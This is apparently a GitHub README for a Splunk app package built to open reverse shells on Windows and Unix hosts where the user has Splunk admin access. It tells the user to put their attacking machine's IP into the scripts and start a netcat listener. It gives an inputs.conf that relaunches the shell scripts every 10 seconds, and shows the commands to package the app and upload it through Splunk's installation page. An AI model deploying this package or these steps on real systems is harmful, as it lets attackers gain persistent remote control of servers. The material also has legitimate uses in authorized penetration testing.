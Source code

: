 # reverse_shell_splunk
A simple splunk package for obtaining reverse shells on both Windows and most *nix systems. 

# requirements 
* splunk administrative access
* a netcat listener on the attacking machine 


# how to use


* Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports. 
* Your files and directory structure should look like this.


```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

* inputs.conf in this instance is the configuration file that tells splunk to launch the run.bat file and at what interval. In the example below "run.bat" will be run every 10 seconds. Because splunk only runs .bat files, the call inside "run.bat" is to a file with its same name. When run.bat is called, run.ps1 being in the same directory and having the same name will be run. 


```
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = pentest

[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10

```
* Once you have finished editing the files you will need to tar up the directory and its contents. Make sure to keep the directory and file structure in the example above. Lastly rename the .tgz file to .spl

```

tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl

```

* Launch your listener and upload this package via the app installation page. 

Note: I have had to restart the splunk service on unix type machines in my testing for this to work. No restarts are needed on windows machine. 
